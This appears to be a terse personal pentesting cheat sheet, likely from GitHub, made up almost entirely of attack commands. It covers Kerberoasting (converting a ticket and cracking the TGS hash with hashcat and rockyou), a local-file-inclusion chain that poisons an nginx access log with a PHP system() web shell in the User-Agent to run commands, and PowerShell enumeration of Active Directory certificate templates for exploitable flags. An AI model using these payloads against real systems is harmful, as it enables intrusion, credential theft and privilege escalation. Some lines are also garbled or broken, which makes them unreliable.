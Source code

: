 # GMSAPasswordReader
https://github.com/rvazarkar/GMSAPasswordReader

# Memo
```
C:/ProgramDara/McAfee/Agent/DB/ma.db
```

# Story
```zsh
$ echo "dsaffadsfdsafsf==" | tr -d \\n < result.txt
$ cat result.txt | base64 -d > sqldev.kirbi
$ pa2
$ python ./kirbi2john.py sqldev.kirbi
$ cat crack_file
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
$ cat sqldev_tgs_hashcat
$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```
```zsh
$ http://XXX.XXX.XXX.XXX:RPORT/index.php?page=php://filter/read=convert.base64-encode/resource=index
$ echo "~~~" | base64 -d | grep ".php"
# access to : hoge/index.php"
$ ffuf -w -u http://XXX.XXX.XXX.XXX:RPORT/hoge/index.php?log=FUZZ
# access to : http://XXX.XXX.XXX.XXX:RPORT/hoge/index.php?log=../../../../../../var/log/nginx/access.log
$ curl -s "http://XXX.XXX.XXX.XXX:RPORT/index.php" -A '<?php system($_GET["cmd"]); ?>'
# access to : http://XXX.XXX.XXX.XXX:RPORT/hoge/index.php?log=../../../../../../var/log/nginx/access.log&cmd=id
# access to : http://XXX.XXX.XXX.XXX:RPORT/hoge/index.php?log=../../../../../../var/log/nginx/access.log
# php file
## <?php system($_GET["cmd"]); ?>
# User-Agent: <?php system($_GET['cmd']); ?>
$ curl -X POST 'http://XXX.XXX.XXX.XXX:8080/webshell/api' --data "action=exec&cmd=id" 
```
```powershell
PS> Get-Content .\cert_templates.txt | sls -Pattern "(Template\[|Backup Operators|Remote Desktop Users|Domain Users|Client Authentication|CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT)"
PS> Get-Content .\cert_templates.txt -Raw `
| Foreach-Object {$_ -replace "\r\n", "aaaa" -replace "\n", "aaaa"} `
| sls -Pattern "Template\[31\].*?Template\[32\]" -AllMatches | Foreach-Object { $_.Matches.Value } `
| Foreach-Object {$_ -replace "aaaa", "`n"}
PS>
# not expected output
PS> certutil -v -template > cert_templates.txt
PS> net user <username> /domain
PS> Get-Content .\cert_templates.txt -Raw `
| Foreach-Object {$_ -replace "\r\n", "aaaa" -replace "\n", "aaaa"} `
| Select-String -Pattern "Template\[.*?\].*?(Backup Operators|Remote Desktop Users|Domain Users).*?(Template\[.)" -AllMatches | Foreach-Object { $_.Matches.Value } `
| Select-String -Pattern "Template\[.*?\].*?(Client Authentication).*?(Template\[.)" -AllMatches | Foreach-Object { $_.Matches.Value } `
| Select-String -Pattern "Template\[.*?\].*?(CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT).*?(Template\[.)" -AllMatches | Foreach-Object { $_.Matches.Value } `
| Select-String -Pattern "Template\[.*?\]" -AllMatches | Foreach-Object { $_.Matches.Value } `
| Foreach-Object {$_ -replace "aaaa", "`n"}
```
```zsh
```